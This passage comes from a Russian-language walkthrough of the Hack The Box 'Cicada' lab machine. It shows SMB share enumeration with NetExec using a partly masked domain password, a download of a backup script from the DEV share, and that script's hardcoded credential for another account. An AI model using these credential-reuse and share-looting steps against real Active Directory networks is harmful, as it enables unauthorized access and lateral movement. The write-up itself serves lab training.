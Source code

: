 ```
givenName: David
initials: D
distinguishedName: CN=David Orelious,CN=Users,DC=cicada,DC=htb
instanceType: 4
whenCreated: 20240314121729.0Z
whenChanged: 20250108084925.0Z

...
```

Теперь у нас есть доступ к двум учетным записям, давайте посмотри какие привелегии имеет учетная запись `david.orelious`
```
Hexada@hexada ~/app/pentesting-tools/NetExec/nxc$ poetry run python netexec.py smb cicada.htb -u david.orelious -p 'aRt$L*****' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$L*****
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

Как мы видим, мы имеем досиуп к шару **DEV**, к которому мы раньше не имели доступ с учетной записи `michael.wrightson`, давайте смотреть что там
```
Hexada@hexada ~/app/cicada.htb$ smbclient //cicada.htb/DEV -U david.orelious                                                                                                               
Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 14:31:39 2024
  ..                                  D        0  Thu Mar 14 14:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 20:28:22 2024

                4168447 blocks of size 4096. 110752 blocks available
smb: \> mget *
Get file Backup_script.ps1? y
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.5 KiloBytes/sec) (average 1.5 KiloBytes/sec)
```
```
Hexada@hexada ~/app/cicada.htb$ cat Backup_script.ps1                                                                                                                                      

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#****" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
```